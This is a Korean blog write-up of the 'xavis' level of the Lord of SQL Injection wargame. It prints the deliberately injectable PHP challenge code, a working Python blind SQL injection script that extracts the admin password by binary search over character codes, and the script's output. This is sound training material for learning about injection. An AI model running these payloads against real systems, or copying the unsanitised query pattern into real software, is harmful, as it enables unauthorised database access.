 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - xavis 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 이거 너무 오래 고민했는데 너무 허무하다.  

내가 마블 영화에서 젤 좋아하는게 아이언맨이고 그 중에서도 좋아하는게 자비스 캐릭터였는데, 이 문제때문에 싫어질라고 했다.  

근데 어찌어찌 풀었는데 나한테 화가난다 ㅋㅋㅋㅋ  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw=''
---------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

일단 소스코드는 간단하다.  

보면 `regex`랑 `like`은 사용을 못하도록 되어있는데, 그거 외에 `'`, `"`, `=`, `and`, `or`에 필터링이 없다.  

그래서 처음엔 그냥 `Blind SQL Injection`인줄 알고 이 전에 사용했었던 소스코드를 가져와 돌려보았다.  

그런데 `length`는 `12`라고 나오는데, 막상 `pw`는 `4번째` 문자부터만 찾았다.  

거기다 4번째 문자 ~ 12번째 문자까지가 싹 다 `0`이 나왔다.  

뭔가 이상하다 싶어서 `ord`랑 부등호를 사용해서 첫 번째 글자를 대충 손으로 찾아 보았다.  

그랬더니 값이 무려 `50000`대가 나왔다.  

`hex`로 값을 바꾸어 보니 `0xc6b0`이 나왔는데, 보니까 우리가 일반적으로 사용하는 아스키코드 범위 내의 문자가 아닌 것 같았다.  

그래서 원래 소스코드에서 `48 ~ 127`까지 비교하던 값을 `0x0 ~ 0xffff` 즉,  `0 ~ 65536`까지로 바꾸었다.  

첨엔 이렇게 소스코드 짜고 돌리려고 했는데, 생각해보니 최악의 경우 `0 ~ 65536`까지 `12번`을 비교해야 한다.  

뭔가 서버가 터질까봐 두려워서 횟수를 줄일 수 있는 방법을 찾다가 갑자기 학교 다닐때 배웠던 `이진 탐색`이 생각났다.  

그래서 이 `이진 탐색(Binary Search)` 알고리즘을 사용해서 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

def testEqual(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) = " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def testBigger(j, num):
        try:
                query = url + "1' or id='admin' and ord(substr(pw, " + str(j) + ", 1)) < " + str(num) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
        
        if 'Hello admin' in r.text:
                return True
        else:
                return False

def searchPw(j, start, end):
        if start > end:
                return "None"

        mid = (start + end) / 2

        if testEqual(j, mid):
                return hex(mid)
        elif testBigger(j, mid):
                end = mid - 1
        else:
                start = mid + 1

        return searchPw(j, start, end)
               
flag = "0x"
length = 0

url = "http://los.rubiya.kr/xavis_04f071ecdadb4296361d2101e4a2c390.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
        try:
                query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
                r = requests.post(query, cookies=session)
        except:
                print "[-] Error occur"
                continue

        if 'Hello admin' in r.text:
                length = i
                break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
        flag += str(searchPw(j, 0, 65535))[2:]
        print "[+] Found ", str(j), "'s pw : ", flag

print "[+] Found password : ", flag
print "[+] End"
```

이 소스코드를 돌리면 결과는 아래와 같이 나온다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  12
[+] Find password
[+] Found  1 's pw :  0xc6b0
[+] Found  2 's pw :  0xc6b0c655
[+] Found  3 's pw :  0xc6b0c655ad73
[+] Found  4 's pw :  0xc6b0c655ad730
[+] Found  5 's pw :  0xc6b0c655ad7300
[+] Found  6 's pw :  0xc6b0c655ad73000
[+] Found  7 's pw :  0xc6b0c655ad730000
[+] Found  8 's pw :  0xc6b0c655ad7300000
[+] Found  9 's pw :  0xc6b0c655ad73000000
[+] Found  10 's pw :  0xc6b0c655ad730000000
[+] Found  11 's pw :  0xc6b0c655ad7300000000
[+] Found  12 's pw :  0xc6b0c655ad73000000000
[+] Found password :  0xc6b0c655ad73000000000
[+] End
```

4번째부터는 `0`이 나오는 걸 보니, 실제로는 3글자인 것 같았다.  

여기까진 어렵지 않게 왔는데, 문제는 지금부터였다.  

딱봐도 그냥 아스키코드는 아니고 확장 아스키코드인가 싶어서 인터넷을 뒤져서 `Converter`에 돌려 보았었다.  

막 다 이상한 문자만 출력 해 주길래 그게 맞는건줄 알고 계속 시도했다.  

근데 아무리 해도 안됨ㅋ  

매일매일 뭐가 잘못된건지 뒤져보는데 아무리봐도 모르겠어서 며칠동안 `내가 코드를 잘못짰나`, 아니면 `변환기를 잘못 사용했나` 해서 진짜 사이트 여기저기 돌아다니면서 `Converter`를 사용 했었다.  

그러다가 며칠만에 오늘... 이 [사이트](https://www.branah.com/unicode-converter)를 발견했다.  

여기 아래 부분에 보면 `Decimal`이라고, 10진수로 값을 입력하는 곳이 있다.  

그 칸에 나온 글자 3개의 `hex` 값을 `10진수`로 바꾸어 입력 해 주었다.  

```
508645077344403

OR

50864 50773 44403
```

그랬더니 맨 위 칸에 `우왕굳`이라고 나왔다.  

ㅋ  

결국 한글이었다.  

난 그것도 모르고 변환기가 이상한 문자를 주길래 걔인가 해서 며칠동안 걔만 시도했는데 아니었다.  

왜 그 사이트에서는 이상한 문자로 준건지를 모르겠다.  

`hex`로 입력했을 때랑 `decimal`로 입력했을 때랑 다른 값을 주는건가...?  

그럴리가..  

어쨌든 왜 제대로 변환이 안됬는지 원인은 모르겠지만, `우왕굳`을 입력 해 주니 며칠간의 삽질을 끝낼 수 있었다.  

```
?pw=우왕굳
```

```php
----------------------------------------------------------------------------------------
query : select id from prob_xavis where id='admin' and pw='우왕굳'
----------------------------------------------------------------------------------------

Hello admin
XAVIS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`XAVIS Clear!!`
